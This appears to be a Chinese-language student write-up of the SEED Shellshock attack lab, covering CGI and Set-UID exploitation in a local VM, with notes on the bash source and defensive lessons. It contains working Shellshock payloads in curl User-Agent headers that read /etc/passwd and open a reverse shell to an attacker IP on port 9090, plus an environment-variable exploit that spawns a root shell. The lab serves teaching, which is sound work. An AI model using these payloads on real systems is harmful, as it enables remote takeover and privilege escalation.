# Shellshock Attack Lab

2014年9月24日，Bash中发现了一个严重的漏洞。这个绰号叫Shellshock的漏洞可以利用许多系统，可以远程启动或从本地机器启动。在这个实验中,我们将研究这种攻击，这样才能了解Shellshock漏洞。

本文作者：zmzzmqa、[对酒当歌](https://blog.csdn.net/youyouwoxi)

# Lab Tasks

## 任务1：攻击CGI计划 

> **Task 1: Attack CGI programs**。在此任务中，我们将在远程Web服务器上启动shellshock攻击。 许多Web服务器启用CGI，即用于在网页和Web应用程序上生成动态内容的标准方法。 使用shell脚本编写许多CGI程序。 因此，在执行CGI程序之前，将调用shell程序，并将这种调用由远程计算机触发。

### 第1步：设置CGI程序。

> 您可以编写一个非常简单的CGI程序（称为myprog.cgi），如下所示。 它只需使用shell脚本打印出“Hello World”。
>
> ```bash
> #!/bin/bash
> echo "Content-type: text/plain"
> echo
> echo
> echo "Hello World"
> ```

```BASH
su root 

vim myprog.cgi
chown root myprog.cgi
chmod 4755 myprog.cgi
su seed
```




```bash
ls -l
```



> 请将上述CGI程序放在`/usr/lib/cgi-bin`目录中，并将其权限设置为755（因此它是可执行的）。 您需要使用root权限来执行这些（使用sudo），因为该文件夹仅是root。 此文件夹是Apache Web服务器的默认CGI目录。 如果要更改此设置，则可以修改`/etc/apache2/sites`可用/默认值，这是apache配置文件。
> 要从Web访问此CGI程序，您可以通过键入以下URL来使用浏览器：`http://localhost/cgi-bin/myprog.cgi`，或使用以下命令行程序curl做同样的事情：
>
> ```
> $  curl  http://localhost/cgi-bin/myprog.cgi
> ```
>
> 在我们的设置中，我们运行Web服务器和来自同一台计算机的攻击，这就是我们使用localhost的原因。 在实际攻击中，服务器正在远程计算机上运行，而不是使用localhost，我们使用主机名或服务器的IP地址。

在获取主机地址后



可以使用另一台设备进行。

```bash
curl  http://192.168.190.136/cgi-bin/myprog.cgi
```



### 第2步：启动攻击。 

> 在设置上述CGI程序后，您可以启动ShellShock攻击。 该攻击不依赖于CGI程序中的内容，因为它针对CGI脚本在执行CGI脚本之前调用的Bash程序。 您的目标是通过URL `http://localhost/cgi-bin/myprog.cgi`启动攻击，以便您可以实现您不能作为远程用户的内容。 例如，您可以从服务器上删除某些文件，或从服务器获取某些文件（无法访问攻击者）。
> 请描述您的攻击方式。 请从漏洞源代码变量中查找.C漏洞是。 您只需要识别初始化shell变量（）函数中的行（在线308和369之间）。

查看 variables.c 文件 352行开始发现

```c
/* Ancient backwards compatibility.  Old versions of bash exported
	     functions like name()=() {...} */
      if (name[char_index - 1] == ')' && name[char_index - 2] == '(')
        name[char_index - 2] = '\0';

      if (temp_var = find_function(name))
      {
        VSETATTR(temp_var, (att_exported | att_imported));
        array_needs_making = 1;
      }
      else
        report_error(_("error importing function definition for `%s'"), name);
```

在这里 bash 会检查环境变量的值，如果环境变量的值是以“() { ”开头的，bash 将会把”=”替换成空格，从而将环境变量的变为一个函数定义。

`-A` 选项可以用来设置请求的 User-Agent 字段。所以如果想要执行”`/bin/ls -l`”，可以构造

```
curl -A "() { :;}; echo ; /bin/ls -l" http://192.168.190.136/cgi-bin/myprog.cgi
```



若想打印/etc/passwd，可构建

```bash
curl -A "() { : ;}; echo ; /bin/cat /etc/passwd" http://192.168.190.136/cgi-bin/myprog.cgi
```



#### 尝试获取bash权限

> `/bin/bash` 命令表示通常在受损服务器上执行的命令。 此命令有以下几个部分：
>
> - `/bin/bash-i`：i 代表交互式，意思是 shell 必须是交互式的(必须提供 shell 提示)
> - `\>/dev/tcp/192.168.136.130/9090`：其作用是将 shell 的**输出**(stdout)重定向到 TCP 连接到 192.168.136.130(攻击机)的9090端口。 输出 stdout 用文件描述符编号 1 表示。
> - `0<&1`: 文件描述符 0 表示**标准输入**(stdin)。 这导致外壳的 stdin 从 tcp 连接中获得。
> - `2>&1`:文件描述符 2 表示**标准错误** stderr。 这导致错误输出被重定向到 TCP 连接

得到攻击机的IP地址



攻击代码

``` BASH
curl -A "() { echo 1; };echo;/bin/bash -i > /dev/tcp/192.168.190.135/9090 0>&1 2>&1" http://192.168.190.136/cgi-bin/myprog.cgi
```

使用tcp连接将bash反弹出来。执行命令后进入等待状态



在另一个bash中连接该端口，获得bash

实验原理：当一个shell程序接受环境变量的时候，会检测环境变量的值是否以：”() {“开头，一旦发现这样的字符串，Bash就会用=来替换空格，把环境变量替换成函数定义

但在shell的源代码中，使用parse_and_execute()函数来解析指令，但是如果转化的结果包含多条用“；”分开的shell命令，那么这个函数就会执行每一条指令。

## 任务 2：攻击集 UID 程序

> Task 2: Attack Set-UID programs。在这个任务中，我们使用Shellshock来攻击Set-UID程序，目标是获得root权限。在攻击之前，我们需要首先让 /bin/sh 指向 /bin/bash（默认情况下，它指向 SEED Ubuntu 12.04 VM 中的 /bin/dash）。您可以使用以下命令执行此操作：

```SH
$ sudo ln -sf /bin/bash /bin/sh
```

```
ls -l /bin/sh
```



### Task 2A

> 下面的程序是一个Set-UID程序，它只运行"`/bin/ls -l`"命令。 请编译此代码，使其成为Set-UID程序，并使root成为其所有者。 如我们所知，`system()`函数将调用 "`/bin/sh -c`" 来运行给定的命令，这意味着将调用 /bin/bash。你能使用Shellshock漏洞来获得root权限吗？

创建文件b.c 编译并为它设置为 set-uid 程序。

```C
#include <stdio.h>
void main()
{
setuid(geteuid()); // make real uid = effective uid.
system("/bin/ls -l");
}
```

```bash
sudo ln -sf /bin/bash /bin/sh

gcc b.c -o b
sudo chown root b
sudo chmod 4755 b
```



应该注意的是，使用setuid（geteuid（））将真正的uid转换为有效的uid在Set-UID程序中并不常见，但它确实发生了。

攻击代码

```BASH
export att='() { echo hello; }; /bin/sh'
```

攻击成功

```
./b
```



得到了 root 权限的shell。

### Task 2B

> 现在，从上面的程序中删除` setuid(geteuid()); `语句，并重复你的攻击。您能否获得 root 权限？
>
> 在实验中，当删除该行时，攻击将失败（使用该行，攻击成功）。换句话说，如果真实用户 ID 和有效用户 ID 相同，则会评估环境变量中定义的函数，从而利用 Shellshock 漏洞。但是，如果实际用户 ID 和有效用户 ID 不相同，则根本不计算环境变量中定义的函数。这可以从 bash 源代码（变量.c，在第 308 行到第 369 行之间）进行验证。可以从实验室网站获取源代码。请准确指出哪条线导致了差异，并解释为什么Bash会这样做。

去除后攻击失败，不能获得bash。

```
gcc b.c -o b
sudo chown root b
sudo chmod 4755 b
./b
```



因为源码中对privemode 进行了比较，在这里真实的id 是 seed，而有效用户 id 是 root，因此 bash 不会执行从环境变量出获得的函数定义。

execve函数是加载一个程序，而这个程序尽管只用原先的环境变量但是由于并没有使用sh去解析该命令，并没有触发bash的漏洞。

### 任务 2C

> 在 C 中调用程序的另一种方法是使用 execve（），而不是 system（）。 以下程序所做的与任务 2A 中的程序完全相同。请编译代码，并使其成为root拥有的Set-UID程序。 在这个新程序上发起你的Shellshock攻击。

使用 execve()函数，而不是 system 函数()的c.c文件

```C
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
char **environ;
int main()
{
    char *argv[3];
    argv[0] = "/bin/ls";
    argv[1] = "-l";
    argv[2] = NULL;
    setuid(geteuid()); // make real uid = effective uid.
    execve(argv[0], argv, environ);
    return 0;
}
```

编译设置程序

```bash
gcc c.c -o c
sudo chown root c
sudo chmod 4755 c
export att='() { echo hello; }; /bin/sh'

./c
```



攻击也是失败，因为execve()并没调用一个新的shell，而system则相当于调用一个/bin/sh -c，环境变量没有子shell可传，也就不会产生shellshock漏洞。

## 任务3：问题

2.3 任务3：问题
这是一项写作任务，请在您的报告中回答以下问题：
1. 除了上述两种情况（CGI和Set-UID程序）之外，还有其他sce-nario可能受到Shellshock攻击的影响吗？ 


还有基于 Shellshock 的蠕虫攻击、利用 ShellShock 僵尸网络的对 SMTP 的攻击、基于Shellshock 的对 DHCP 的攻击等等。

2. Shellshock漏洞的根本问题是什么？ 我们可以从这个漏洞中学到什么？

Bash 4.3 以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞。受到该漏洞影响的 bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的 shell 命令。攻击者可利用此漏洞改变或绕过环境限制，以执行任意的 shell 命令,甚至完全控制目标系统。

从 Shellshock 中，我们可以学到两点：

- 及时更新系统及软件,定期扫描系统,以防应对不及时而遭受漏洞攻击;
- bash 源码中，针对 ENV 命令实现部分，应进行边界检查与参数过滤，严格界定函数定义范围，并做合法化的参数的判断。
- 一切使用bash解析的shell脚本都会收到影响，不要相信用户的输入。

